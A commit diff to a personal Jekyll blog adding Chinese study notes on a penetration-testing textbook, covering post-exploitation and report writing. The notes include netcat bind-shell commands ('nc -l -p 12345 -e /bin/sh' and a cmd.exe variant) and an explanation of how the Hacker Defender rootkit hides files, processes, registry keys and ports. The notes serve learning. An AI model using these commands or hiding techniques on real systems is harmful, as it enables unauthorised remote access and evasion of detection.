

Before and after one commit to victor-infosec/victor-infosec.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 80% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; library files that are not in the unit come from our copies; the list of posts is cut into pages by our own code; some of the changed text lies outside the part shown.

Commit message:
20180406

```diff
--- a/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/2018-04-06-The-Basics-of-Hacking-and-Penetration-Testing-Part3.md
+++ b/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/2018-04-06-The-Basics-of-Hacking-and-Penetration-Testing-Part3.md
@@ -1,3 +1,13 @@
+---
+layout: post
+title: The Basics of Hacking and Penetration Testing Part3
+key: 20180406
+category: books
+tags:
+  - 读书笔记
+lang: zh
+---
+
 CHAPTER4 Exploitation
 --------------------------------------
 1、渗透神器 **Metasploit**
--- /dev/null
+++ b/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/2018-04-06-The-Basics-of-Hacking-and-Penetration-Testing-Part4.md
@@ -0,0 +1,110 @@
+---
+layout: post
+title: The Basics of Hacking and Penetration Testing Part3
+key: 20180406
+category: books
+tags:
+  - 读书笔记
+lang: zh
+---
+
+CHAPTER7 Post Exploitation and Maintaining Access with Backdoors, Rootkits, and Meterpreter
+--------------------------------------
+
+1、netcat
+
+&ensp;&ensp;1、“聊天”
+
+Server:  `nc –l –p 1337`
+
+Client:   `nc 192.168.18.132 1337`
+
+建立一个TCP连接
+
+&ensp;&ensp;2、传输文件
+
+server： `nc –l –p 7777 > virus.exe`
+
+client：  `nc 172.16.45.129 7777 < virus.exe`
+
+&ensp;&ensp;3、获取banner信息
+
+`nc 192.168.18.132 50001`
+
+输入一些内容，查看返回信息
+
+&ensp;&ensp;4、正反向shell
+
+Server：
+
+`nc –l –p 12345 –e /bin/sh`
+`nc.exe –L –p 12345 c:\Windows\System32\cmd.exe`
+
+Client：
+
+`nc 192.168.1.1 12345`
+
+2、加密版的netcat：Cryptcat
+
+1.	使用-k选项修改默认密钥
+
+2.	Server：`cryptcat –l –p 5757`
+
+3.	Client；`cryptcat 192.168.18.132 5757`
+
+3、Rootkits - Hacker Defender
+
+配置文件：
+
+ <div align="center" markdown="1">
+<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/8.png" alt="渗透测试流程8" height="50%" width="50%" />
+</div>
+
+**[Hidden Table]**. Any files, directories, or folders listed under this heading will be hidden from the explorer and file manager used by Windows.
+
+**[Hidden Processes]** Each of the processes listed here will be hidden from the local user when they view currently running processes with the task manager.
+
+**[Root Processes]** Any programs listed here will be allowed to view and interact with programs on the system, including those listed in the [Hidden Table] and [Hidden Processes] tab.
+
+**[Hidden Services]** section will hide each of the listed services. Again, when interacting with the task manager, any program listed here will be concealed from the “services” list.
+
+**[Hidden RegKeys]** section can be used to camouflage each of these keys. You will need to make sure that you list them all in order to avoid detection.
+
+**[Hidden RegValues]** Entering information here will hide individual values rather than the entire key.
+
+**[Startup Run]** is a list of programs that will be automatically run once Hacker Defender has been started.
+
+You can use the **[Free Space]** section to force the computer to “add back” the amount of free space that you used.
+
+If you know of ports that you plan to open, you can list them under the **[Hidden Ports]** section.
+
+4、Meterpreter
+
+常用命令
+
+ <div align="center" markdown="1">
+<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/9.png" alt="渗透测试流程9" height="50%" width="50%" />
+</div>
+
+CHAPTER 8 Wrapping Up the Penetration Test
+--------------------------------------
+
+1、Executive Summary
+
+> - The executive summary should be a very brief overview of your major findings.
+> - If vulnerability and exploits were discovered, the executive summary needs to focus on explaining how these findings impact the business.
+
+2、Detailed Report
+
+> - This report will include a comprehensive list of your findings as well as the technical details.
+> - Always present critical findings first.
+> - The idea and use of proof-of-concept screenshots is a powerful tool and should be incorporated into the penetration testing report whenever possible.
+> - Whenever possible, when writing the penetration testing report, you need to include mitigations and suggestions for addressing the issues you discovered.
+
+3、Raw Output
+
+[optional]
+
+4、note：
+
+>If you have agreed to deliver the document electronically, you will need to ensure that the penetration testing report is encrypted and remains confidential until it arrives in the client’s hands.
```
Also changed, not shown: _posts/books/The-Basics-of-Hacking-and-Penetration-Testing/8.png (added), _posts/books/The-Basics-of-Hacking-and-Penetration-Testing/9.PNG (added).
